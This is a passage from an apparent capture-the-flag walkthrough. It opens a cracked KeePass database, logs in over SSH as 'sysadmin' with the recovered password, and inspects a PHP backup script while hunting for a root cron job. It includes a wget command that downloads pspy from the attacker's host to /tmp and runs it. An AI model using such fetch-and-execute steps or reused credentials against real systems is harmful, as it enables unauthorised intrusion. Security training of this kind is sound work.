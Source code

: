 So we cracked the hash successfully now we can open the dataabase file in keepass2 which can be installed in (for debian) :

```
sudo apt install keepass2
```

![Screenshot from 2025-06-24 15-39-14](https://github.com/user-attachments/assets/b7466803-14ca-4ac1-b6a5-26373ec9c572)


Cool... We got the password of sysadmin let's try to connect to the server through `ssh` as `sysadmin`

```
ssh sysadmin@10.10.114.29 
```

![userflag](https://github.com/user-attachments/assets/097be906-2bd0-479b-9bd1-51759d5aacdb)


## Privilege escalation to root

In the `scripts` directory we have file `script.php` having content :

```
<?php

//Backup of scripts sysadmin folder
require_once('lib/backup.inc.php');
zipData('/home/sysadmin/scripts', '/var/backups/backup.zip');
echo 'Successful', PHP_EOL;

//Files scheduled removal
$dir = "/var/www/html/cloud/images";
if(file_exists($dir)){
    $di = new RecursiveDirectoryIterator($dir, FilesystemIterator::SKIP_DOTS);
    $ri = new RecursiveIteratorIterator($di, RecursiveIteratorIterator::CHILD_FIRST);
    foreach ( $ri as $file ) {
        $file->isDir() ?  rmdir($file) : unlink($file);
    }
}
?>
```

This script is used to create the backup of `/home/sysadmin/scripts` as `/var/backups/backup.zip` and removing the files stored in the directory `/var/www/html/cloud/images/`

But the question arises how this file is executing ??

Maybe there is root cron job scheduled for executing the script. we can snoop on processes without root privileges using [pspy](https://github.com/DominicBreuker/pspy?tab=readme-ov-file)

```
wget http://10.21.207.183:8000/pspy64 -O /tmp/pspy;chmod +x /tmp/pspy;/tmp/pspy
```

![Screenshot from 2025-06-24 17-23-00](https://github.com/user-attachments/assets/b79a0531-c5ca-481b-b57e-bef58a6fdaf9)
